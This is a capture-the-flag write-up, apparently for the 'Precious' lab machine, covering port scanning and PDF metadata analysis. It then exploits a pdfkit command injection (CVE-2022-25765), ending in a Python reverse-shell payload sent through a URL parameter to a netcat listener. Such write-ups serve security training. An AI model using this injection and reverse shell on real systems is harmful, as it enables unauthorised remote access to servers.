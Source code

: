 # Precious

## Summary

* [Info Gathering](#info-gathering)

## Info Gathering
First thing let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 17:07 CEST
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
```
We know that there are 2 services open: SSH service on the port 22 and an HTTP server on the default port 80.
We can check out the web server, so we add the IP address to the `/etc/hosts` file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.189	precious.htb
```
We can now access the web server on the browser using its domain or the IP address.

The only functionality present is to convert a web page into a PDF file.
We can test that out by starting a python web server and trying to get its PDF file.
```bash
python -m http.server
```
We can now enter our IP address followed by the port which the python web server has been opened: `http://10.10.16.79:8000/` and get its PDF file.
We can get more information by reading the file metadata using the `Exiftool`, so `exiftool file.pdf`:
```
ExifTool Version Number         : 12.50
File Name                       : edlaxwm1d82couplf7vpkkm9b4nyht3g.pdf
Directory                       : .
File Size                       : 29 kB
File Modification Date/Time     : 2023:03:26 17:12:58+02:00
File Access Date/Time           : 2023:03:26 17:13:44+02:00
File Inode Change Date/Time     : 2023:03:26 17:12:58+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
We can see that the file has been created by the `pdfkit v0.8.6` ruby package.
We can use Google to search some known vulnerabilities about this package.

## Exploiting
We find [CVE-2022-25765: Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) which allows us to inject a command if the URL is not sanitized.
Let's understand how the vulnerability works: an application could be vulnerable if it tries to render a URL that contains query string parameters with user input:
```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
```
If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF:
```ruby
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf
```
Calling `to_pdf` on the instance shows that the `sleep` command is indeed executing.
The `%20` is a URL-encoded space character, which allows the attacker to separate the injected command from the rest of the URL.
When PDFKit is used to generate a PDF from a URL, it first converts the URL into a command line argument string that is passed to a command line tool to generate the PDF.

So we can input the URL `http://10.10.16.79:8000/?name=%20&#x60sleep 5&#x60` to test the vulnerability and see that the operation takes 5 seconds to get the PDF file, so the website is vulnerable to this exploit.

## Reverse Shell
We can now execute a reverse shell script to get access to the server.
Let's start listening to connections on port `1234` using `Netcat`:
```
nc -lvnp 1234
```
now we can execute a python reverse shell using the exploit entering the following URL `http://10.10.16.79:8000/?name=%20\`export RHOST="10.10.16.79";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'\`` and get access to the server.
